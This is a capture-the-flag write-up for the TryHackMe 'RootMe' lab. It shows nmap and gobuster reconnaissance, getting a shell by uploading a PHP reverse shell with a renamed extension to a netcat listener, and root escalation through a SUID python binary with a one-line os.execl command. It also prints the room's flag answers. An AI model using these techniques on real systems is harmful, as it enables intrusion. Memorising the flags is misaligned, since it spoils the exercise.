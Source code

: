 # RootMe  ctf room of tryhackme

## Task2 : Reconnaissance

### 1.Scan the machine, how many ports are open : 2
- run nmap and scan the machine
```bash
nmap -sS -sV 10.10.157.26

Starting Nmap 7.60 ( https://nmap.org ) at 2022-09-10 13:16 BST
Nmap scan report for ip-10-10-157-26.eu-west-1.compute.internal (10.10.157.26)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:DD:4F:EB:17:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds
```
### 2. What version of Apache is running:2.4.29
- from the nmap scan

### 3. What service is running on port 22: ssh
- from the nmap scan

### 4. What is the hidden directory :/panel/

- run dir scan using gobuster

```bash

gobuster dir -u 10.10.157.26 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.157.26
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/09/10 13:20:43 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.hta (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2022/09/10 13:20:53 Finished
===============================================================

```



## Task3 : Getting a shell

1. setup a netcat listener on the attacker machine
```
nc -lvnp 1234
```

2. search for a reverseshell exploit in php
[here](https://github.com/pentestmonkey/php-reverse-shell.git)

3. change extention of the file to phtml or php.txt

4. dont forget to change ip and port in the file

5. upload the file and you will receive the shell

```shell

$ find / -name user.txt 2>/dev/null 
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

```

## Task4:  Privilege escalation

### 1. Search for files with SUID permission, which file is weird: /usr/bin/python

- run this command to fine all files with suid bit

```
find / -perm /4000 2>/dev/null
```

### 2. Find a form to escalate your privileges.

- we can use this exploit to get root access check [here](https://gtfobins.github.io/gtfobins/python/)

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### 3. root.txt

```
#find / -name root.txt 2>/dev/null
#/root/root.txt
#cat /root/root.txt
#THM{pr1v1l3g3_3sc4l4t10n}
```


